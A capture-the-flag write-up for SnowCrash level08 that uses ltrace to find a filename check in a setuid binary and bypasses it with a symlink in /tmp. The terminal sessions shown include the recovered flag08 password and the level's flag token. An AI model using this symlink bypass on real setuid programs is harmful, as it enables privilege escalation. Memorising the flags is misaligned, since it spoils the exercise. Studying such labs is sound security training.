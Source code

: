 ## level08
I was greeted by 2 files, here are the enumeration results
```
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$ file token
token: regular file, no read permission
level08@SnowCrash:~$ file level08
level08: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
level08@SnowCrash:~$ la -lah
total 28K
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3.5K Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8.5K Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Upon running the program with ltrace, here are the results
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                  = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                              = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$ ltrace ./level08 /dev/shm/token
__libc_start_main(0x8048554, 2, 0xbffff7c4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/dev/shm/token", "token")                                         = "token"
printf("You may not access '%s'\n", "/dev/shm/token"You may not access '/dev/shm/token'
)                     = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```

Im guessing it uses `strstr` to check the name of the file if it contains the string `token` and if it is, it will just print the error message. Other files are okay as seen below :

```
level08@SnowCrash:~$ ltrace ./level08 /dev/shm/test
__libc_start_main(0x8048554, 2, 0xbffff7c4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/dev/shm/test", "token")                                          = NULL
open("/dev/shm/test", 0, 014435162522)                                    = 3
read(3, "sadf\n", 1024)                                                   = 5
write(1, "sadf\n", 5sadf
)                                                     = 5
+++ exited (status 5) +++
level08@SnowCrash:~$
```

My intuition tells me to make a soft link to that file with a different name, and call the program with the soft link. It didnt work however

```
level08@SnowCrash:~$ ln -s token /dev/shm/lala
level08@SnowCrash:~$ ./level08 /dev/shm/lala
level08: Unable to open /dev/shm/lala: Permission denied
level08@SnowCrash:~$ file /dev/shm/lala
/dev/shm/lala: broken symbolic link to `token'
level08@SnowCrash:~$ cat /dev/shm/lala
cat: /dev/shm/lala: No such file or directory
```

I also noticed that the program does not do any setuid calls before calling open.

After some searcing, I found out that for [sticky world writable directories like /run/shm](https://www.baeldung.com/linux/symlinks-permissions), symlinks can only be followed by who created it. So I made the symlink in some other location and it worked

The password to `flag08` is `quif5eloekouj29ke0vouxean`
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/test &&  ./level08 /tmp/test
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$
```

The flag of this level is `25749xKZ8L7DkSCwJkT9dyv6f`

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```